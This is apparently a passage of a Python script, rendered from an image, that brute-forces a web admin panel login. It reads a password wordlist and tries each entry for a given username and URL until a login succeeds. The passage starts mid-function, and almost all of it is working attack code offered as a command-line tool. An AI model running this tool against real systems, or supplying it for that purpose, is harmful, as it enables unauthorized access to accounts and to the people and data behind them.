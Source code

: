 >             sys.exit(1)
> 
>         except requests.Timeout as e:
>             print(Fore.RED + f"Error: {e}" + Style.RESET_ALL)
>             sys.exit(1)
> 
>         except requests.RequestException as e:
>             print(Fore.RED + f"Error: {e}" + Style.RESET_ALL)
>             sys.exit(1)
> 
>         return False
> 
>     def bruteforce(self):
> 
>         try:
>             with open(self.file, 'r') as f:
> 
>                 for password in f:
> 
>                     if self.doLogin(self.username, password.strip()):
> 
>                         print(Fore.GREEN + f"Login Successfull (Password: {Fore.MAGENTA}{password.strip()})" + Style.RESET_ALL)
>                         break
> 
>                     else:
>                         print(Fore.RED + f"Login Incorrect (Password: {password.strip()})" + Style.RESET_ALL)
>                         time.sleep(1)
> 
>         except FileNotFoundError as e:
>             print(Fore.RED + f"{e} not found in the system" + Style.RESET_ALL)
>             sys.exit()
> 
>         except Exception as e:
>             print(Fore.RED + f"Error trying to Open the file: {e}" + Style.RESET_ALL)
>             sys.exit()
> 
> if __name__ == '__main__':
> 
>     signal.signal(signal.SIGINT, sigint_handler)
> 
>     parser = argparse.ArgumentParser(description='Script to bruteforce an Admin Panel Form')
> 
>     parser.add_argument('url', action='store', help='Admin Panel URL to bruteforce')
>     parser.add_argument('username', action='store', help='Username to log in')
>     parser.add_argument('dictionary', action='store', help='Password dictionary')
> 
>     args = parser.parse_args()
> 
>     bruteforcer = BruteForcer(args.url, args.username, args.dictionary)
> 
>     bruteforcer.bruteforce()
> ```
>
